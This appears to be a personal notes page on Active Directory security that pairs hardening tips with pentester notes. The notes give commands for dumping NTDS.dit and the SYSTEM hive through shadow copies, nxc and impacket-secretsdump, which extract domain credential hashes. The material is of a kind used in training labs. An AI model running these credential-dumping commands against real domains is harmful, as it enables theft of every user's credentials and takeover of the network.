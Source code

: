 # Active Directory Security

<div class="row row-cols-lg-2"><div>

**Common good practices**

* 🔒 An account inside the Domain Admins group should be used instead of the Administrator account which should be disabled.
* 🔑 Limit the use of administrative accounts
* 🗺️ Do not name your server after its function <small>(i.g. SQL_SERVER)</small>
* 🌍 Do not name a workstation after its business unit <small>(i.g. sales-xxx)</small>
* 🏠 Do not use easy to guess usernames <small>(i.g. firstname.lastname)</small>
* 🪺 Add the fewest services on your DC <small>(i.g. no ISS/WSUS...)</small>
</div><div>

* 🏄‍♂️ Install the least ISS modules

</div></div>

<hr class="sep-both">

## Authentication & Authorization

<div class="row row-cols-lg-2"><div>

#### Active Directory database

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Active directory database is stored on the domain controller at `%SystemRoot%\ntds\ntds.dit`. It's used to validate credentials.

It contains user/computer/group accounts, group policies, etc.

To copy this database, we either need local administrative or domain administrative privileges. We can use [VSS](/operating-systems/windows/security/index.md#volume-shadow-copy-service-vss).

You can use commands that are only available on Windows Server:

```shell!
CMD> vssadmin CREATE SHADOW /For=C:
CMD> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Windows\NTDS\NTDS.dit %temp%\NTDS.dit
```

You can also use [cme](/cybersecurity/red-team/tools/cracking/auth/cme.md)/[nxc](/cybersecurity/red-team/tools/cracking/auth/nxc.md) which automatically dump it:

```ps
$ nxc smb IP -u 'username' -p 'password' --ntds
```
</div><div>

#### Kerberos

[![password_attacks](../../../../cybersecurity/_badges/htb/password_attacks.svg)](https://academy.hackthebox.com/course/preview/password-attacks)

Kerberos is a protocol used to provide secure authentication over non-secure networks. It replaces NTLM and NetNTLM.

When a user logs in, their password is hashed and sent to Kerberos server along with the timestamp for verification. Upon successful login, the server generates a **ticket-granting ticket (TGT)** 🎫.

When the user wants to access a network resource, such as a shared folder or a database, the computer requests a ticket from the Key Distribution Center (KDC) using the TGT. If the request is accepted, the KDC will give them a **Ticket Granting Service (TGS)** 🎟️ that they can use solely for the requested service.
</div></div>

<hr class="sep-both">

## Active Directory Pentester Notes ☠️

<div class="row row-cols-lg-2"><div>

#### Dump Secrets From Active Directory database

[![windows_privilege_escalation](../../../../cybersecurity/_badges/htb/windows_privilege_escalation.svg)](https://academy.hackthebox.com/course/preview/windows-privilege-escalation)
[![windows_ntds_secret_extraction](../../../../cybersecurity/_badges/rootme/forensic/windows_ntds_secret_extraction.svg)](https://www.root-me.org/en/Challenges/Forensic/Windows-NTDS-Secret-extraction)

The active directory, similarly to the SAM database, is partially encrypted using a [bootkey](/operating-systems/windows/security/index.md#syskey-bootkey-and-system-hive) stored in the SYSTEM registry.

You can [dump the SYSTEM registry hive](/operating-systems/windows/security/index.md#dump-credentials-from-the-sam-database) using:

```shell!
PS> reg save hklm\system C:\XXX\system.hive
```

You can use impacket [secretsdump](/operating-systems/networking/protocols/tools/impacket.md#secretsdump) script to dump its contents.

```shell!
$ impacket-secretsdump -system ./system.hive -ntds ./ntds.dit LOCAL -outputfile cracked
$ grep "krbtgt" cracked.ntds.kerberos # kerberos tickets
```

You could also use [DSInternals](https://github.com/MichaelGrafnetter/DSInternals/) <small>(1.5k ⭐)</small>:

```ps
PS> Import-Module .\DSInternals.psd1
PS> $key = Get-BootKey -SystemHiveFilePath '.\system.hive'
PS> Get-ADDBAccount -All -DatabasePath .\ntds.dit -BootKey $key
```
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* BloodHound (map AD environment, identify attack paths/priv. esc.)
* Strong password policy
* prevent access to dangerous websites
* [adPEAS](https://github.com/61106960/adPEAS) (0.4k ⭐)
* [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) (1.5k ⭐)
* [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) (3.4k ⭐)
* [AD mindmap orange](https://orange-cyberdefense.github.io/ocd-mindmaps/)
* [kerbrute](https://github.com/ropnop/kerbrute)
* [DPAT](https://github.com/clr2of8/DPAT)/[NtdsAudit](https://github.com/dionach/NtdsAudit)
* [kerbrute](https://github.com/ropnop/kerbrute)
</div><div>

* Hardening AD ([ref](https://blog.netwrix.fr/2019/05/06/securiser-votre-annuaire-ad-contre-les-attaques-de-malware/))
* [Hacking Active Directory](https://tryhackme.com/module/hacking-active-directory)
* `\\<domain_controller>\NETLOGON` (share, store logon scripts/...)

<details class="details-n">
<summary>Configure BitLocker</summary>

* Also in Windows Security
* Network Unlock

**1)** The first part is installing BitLocker on the server:

* Start the Server Manager
* Click on "Add roles and features"
* Press Next thrice
* In Features, select BitLocker

**2)** Then we need to configure it:

* Go to Tools > Group Policy Management
* Right-click on a GPO > Edit <small>(you could create a GPO and apply it on the whole domain, or a GPO only for some OUs...)</small>
* Navigate to "Computer Configuration" > "Policies" > "Administrative Templates" > "Windows Components" > "BitLocker Drive Encryption"
* ~~Enable the "Turn on BitLocker"~~
* Go Navigate to "Operating system drives"
* Enable the "Require additional authentication at startup"
    * Select "Allow BitLocker without a compatible TPM"
    * Select "Do not allow startup PIN with TPM"
* Enable "Choose how BitLocker-protected operating system drives can be recovered"
    * Select the "Save BitLocker recovery information to AD DS for operating system drives"
* Navigate back to parent
* ~~Configure "Choose drive encryption method and cipher strength" <small>(encryption method, cipher strength...)</small>~~

**3)** On the Windows 10, you need to use a local administrator account, refer to the "Get started" section if needed.

* Open a powershell/CMD as an administrator
* Enter "gpedit.msc"
* Navigate to "Computer Configuration" > "Administrative Templates" > "Windows Components" > "BitLocker Drive Encryption"
* ...
* Restart

Then, right-click on the drive to encrypt, select "Bitlocker", and encrypt it. If prompted for a password when starting the workstation, then something went wrong in your configuration.
</details>

<details class="details-n">
<summary>Notes to configure TCP/IP parameters</summary>

You can either use the Windows Registry, or a group policy. Here are some parameters that you may want to set.

* SynAttackProtect <small>(SYN flood attacks)</small>
* EnableDeadGWDetect <small>(Detect dead gateways)</small>
* EnablePMTUdiscovery <small>(Avoid fragmentation...)</small>
* KeepAliveTime <small>(Timeout for inactive connections)</small>
* TCPMaxPortsExhausted <small>(Prevent from exhausting ports)</small>
* PerformRouterDiscovery <small>(Can simply the configuration but allow attackers to set up rogue routers/... to redirect traffic)</small>
* NoNameReleaseOnDemand <small>(Release the NetBios name when no longer needed to prevent attacker from obtaining information)</small>
* TcpMaxConnectResponseRetransmissions <small>(can help to prevent SYN flood attacks, but may exhaust system resources)</small>
</details>

* Passwords stored in cleartext in group policy? in user desc?
</div></div>